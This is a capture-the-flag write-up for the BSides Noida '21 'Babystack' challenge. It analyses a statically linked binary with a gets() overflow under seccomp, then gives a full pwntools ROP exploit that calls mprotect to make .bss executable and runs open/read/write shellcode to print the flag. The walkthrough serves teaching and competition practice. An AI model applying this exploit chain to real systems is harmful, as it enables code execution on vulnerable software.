 # Babystack

Okay so this was a ROP based challenge in BSides Noida '21 CTF. At the time of the CTF, I wasn't really able to solve this challenge. However after trying again, I did get a solution.

Before we dive right in, let's check some preliminary conditions and permissions.

```babystack.out: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=07e1b7ffbb8cbb81b3b714c0187e30dd5f6e2a0d, for GNU/Linux 3.2.0, not stripped```
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
As we can see, it is a 64 bit, statically linked file, with canary and nx enabled. Therefore, to inject a shellcode, we will need an executable stack which isn't possible at the current moment. Let's dive right in to know more.

```int __cdecl main(int argc, const char **argv, const char **envp)
{
  u32 inp[16]; // [rsp+0h] [rbp-40h] BYREF

  apply_seccomp(argc, argv, envp);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  gets(inp);
  return 0;
}
```

From the above decompiled binary, we see the obvious vulnerability "gets" and use of "seccomp" which prevents us from using syscalls other than read, write and open. 
Upon analyzing the binary further we can find mprotect function which basically changes perissions of the .bss section. This would majorly help us in writing a shellcode as the .bss section already has permissions for read and write. Making it executable would help us injecting a shellcode. 
```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b9000         0x004bc000         rw-p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  ;(rw permissions only) 
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

As we can see, using mprotect(), if we change the permissions of the .bss section to "rwx", we can get our shellcode executed.

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  
0x004b9000         0x004bc000         rwxp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  ;(rwx permissions)
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

To do that, we need to note a few things:
- buffer size is 0x40.
- Use an address in .bss section with "rw" permissions and make it executable as well.
- in order to write the shellcode in .bss section, we need to make use of gets() in .bss section.

Firstly, in order to change the permissions, we may do the following:
```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi
```
This will make sure the .bss section has executable permissions. 

Since "seccomp" is used, we can only make use of read, write and open syscalls. Therefore we may write our shellcode as:
```
shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)
```

Now all we need to do is send the payload and give the shell!

## Exploit:
Here's the complete exploit:

```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi

shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)

sleep(0.1)
p.sendline(payload)
sleep(0.1)
p.sendline(asm(shell))

p.interactive()
```

## Flag:
```BSNoida{y0u_4r3_4_b4by_pwn3r_n0w_C7A5}```


